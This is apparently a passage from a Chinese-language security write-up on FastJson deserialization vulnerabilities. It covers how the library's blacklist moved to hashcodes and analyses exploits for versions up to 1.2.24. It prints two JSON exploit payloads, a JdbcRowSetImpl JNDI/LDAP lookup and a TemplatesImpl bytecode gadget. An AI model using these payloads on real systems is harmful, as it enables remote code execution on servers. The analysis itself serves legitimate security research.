 ```java
```

再将FastJson的版本切换到1.2.42，发现从这个版本开始，黑名单和白名单不再已明文的形式写在源码中了，而是使用hashcode（10进制）进行替代，增大安全研究的难度（恶心心）：

![][p1]

将FastJson版本切换到1.2.61，这个版本中，将黑白名单的hashcode换成了16进制：

![][p2]

## FastJson反序列化EXP分析

### Version <= 1.2.24

从前面的分析可以知道，小于1.2.24版本的FastJson随便R，默认开启autoType且没有任何黑白名单防护。只要有Gadget就可以攻击成功。比较常见的EXP如下：

```java
// EXP 1，无需开启Feature.SupportNonPublicField
{
  "test": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://localhost:8080/Shell",
    "autoCommit": true
  }
}

// EXP 2，需要开启Feature.SupportNonPublicField
// 所以只支持：1.2.22<=version<=1.2.24 (1.2.22才开始支持Feature.SupportNonPublicField特性)
{
  "test": {
    "@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes": ["Your Eval Class Bytecodes"],
    "_name": "p1n93r",
    "_tfactory": {},
    "_outputProperties": {}
  }
}
```

过一下这两个EXP叭，下面分析基于FastJson Version 1.2.24以及JDK8u66。

首先分析一下EXP 1。前面我们分析过，FastJson可以根据 `@type` 指定的类来进行反序列化，且会调用属性的setter方法。我们看到EXP：

```java
// EXP 1
{
  "test": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://localhost:8080/Shell",
    "autoCommit": true
  }
}
```
